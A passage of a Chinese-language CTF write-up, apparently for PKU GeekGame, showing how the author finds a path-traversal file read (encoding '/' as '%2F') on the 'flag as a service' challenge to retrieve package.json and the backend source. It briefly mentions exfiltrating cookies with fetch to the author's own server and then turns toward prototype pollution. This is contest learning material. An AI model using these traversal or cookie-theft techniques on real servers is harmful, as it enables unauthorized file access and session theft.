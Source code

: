 `fetch` 那里改成自己的机器，`tail -f` 看一下 access log 就行了。

小饼干🤤我的小饼干🤤

## flag即服务

（第三小题未完成）

### 零·获得代码

首先可以猜到肯定又有 LFI 了。不带参数访问 `/api` 会抛出异常：

```
Error: EISDIR: illegal operation on a directory, read
    at Object.readSync (fs.js:617:3)
    at tryReadSync (fs.js:382:20)
    at Object.readFileSync (fs.js:419:19)
    at /usr/src/app/node_modules/jsonaas-backend/index.js:56:19
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at param (/usr/src/app/node_modules/express/lib/router/index.js:354:14)
```

几乎可以肯定是 LFI 了。直接浏览器里 `../` 是不行的，把 `/` 改成 `%2F` 就好了。因为是 node.js，所以肯定要康康 `package.json` (<https://prob11-placeholder.geekgame.pku.edu.cn/api/..%2F/package.json>)

```json
{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}
```

下载 `super-secret-jsonaas-backend-1.0.1.tgz`，解压，可以看到 flag0:

```js
if(FLAG0!==`flag{${0.1+0.2}}`)
    return;
```

结果是啥不用我说了吧.png

另外，代码稍微修改一下就能在本地跑，方便调试。

### 壹·开通会员

第二小题需要读取 `FLAG1` 变量。尽管知道了 session secret，但是用不了，因为 `express-session` 默认的值是保存在服务器内存里的，空欢喜一场。从 `waf()` 来看，有可能是原型链污染。「激活」的逻辑如下：

```js
app.get('/activate', (req, res)=>{
    if(req.query.code===FLAG1) {
        req.session.activated = 1;
    }
    
    if(req.session.activated)
        res.send(`You have been activated. Activation code: ${FLAG1}`);
    else
        res.send('Wrong activation code :(');
});
```
